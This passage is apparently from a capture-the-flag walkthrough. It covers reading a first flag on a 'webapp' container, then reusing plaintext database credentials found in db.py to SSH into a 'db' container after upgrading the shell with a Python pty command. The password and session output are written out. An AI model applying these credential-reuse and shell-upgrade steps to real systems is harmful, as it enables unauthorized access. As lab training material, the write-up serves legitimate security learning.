```bash
boot
dev
etc
flag1.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

The flag file appears to be in the preceeding folder. Read this file using `cat flag1.txt` to receive the first flag!

# DB Shell & Flag 2

> What is the value found in /flag2.txt on the second container, "mysql"?
> 

When looking through the files in the previous folder /app, there was a file called ‘db.py’. This file contained plaintext credentials for a mysql server. Attempting to connect to the mysql server using `mysql -h db -u root -p NiftySkyPlantedWorry` unfortunately does not work. What if we were to try these credentials for another service instead, such as SSH? It is common for lazy administrators to reuse the same passwords for multiple services, so it’s worth a shot?

```bash
root@webapp:/app# ssh root@db
ssh root@db
Pseudo-terminal will not be allocated because stdin is not a terminal.
Host key verification failed.
```

OK, that didn’t quite work. The shell seems to need upgrading first. This can be done using Python within the terminal. As there are Python files already inside this folder, it’s safe to say that Python is likely installed.

```python
python -c "import pty;pty.spawn('/bin/bash');"
```

 

Using this command successfully upgrades the shell.

```python
root@webapp:/app# ssh root@db
ssh root@db
The authenticity of host 'db (172.19.0.4)' can't be established.
ECDSA key fingerprint is SHA256:JPHo4WFZ6o8hA7rNF+7ZVSp/hLT8JMR5YnbiC7Z10v4.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
yes
Warning: Permanently added 'db,172.19.0.4' (ECDSA) to the list of known hosts.
root@db's password: NiftySkyPlantedWorry

Linux db 5.4.0-104-generic #118-Ubuntu SMP Wed Mar 2 19:02:41 UTC 2022 x86_64

The programs included with the Debian GNU/Linux system are free software;
```